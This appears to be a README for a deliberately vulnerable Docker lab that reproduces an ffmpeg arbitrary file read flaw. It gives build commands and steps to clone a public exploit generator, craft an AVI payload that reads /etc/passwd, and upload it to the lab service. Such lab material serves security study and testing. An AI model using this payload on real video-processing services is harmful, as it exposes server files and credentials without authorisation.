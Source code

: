 # ffmpeg arbitrary file read vulnerability environment

Reference materials:

  - http://bobao.360.cn/learning/detail/4032.html
  - https://hackerone.com/reports/242831
  - https://github.com/neex/ffmpeg-avi-m3u-xbin

## Environment Building

Compile and start the environment

```
Docker-compose build
Docker-compose up -d
```

After the environment starts, listen to port 8080 and visit `http://your-ip:8080/` to view it.

## Vulnerability

The vulnerability principle is no longer described, download exp directly, and generate payload:

```
# download exp
Git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
Cd ffmpeg-avi-m3u-xbin

#产生payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

Generate exp.avi and upload it at `http://your-ip:8080/`. The backend will display the video you uploaded with ffmpeg and transcode it. When transcoding, any file read vulnerability in ffmpeg can be read into the video:

![](01.png)

You can also execute `docker-compose exec web bash` to enter the environment and test ffmpeg.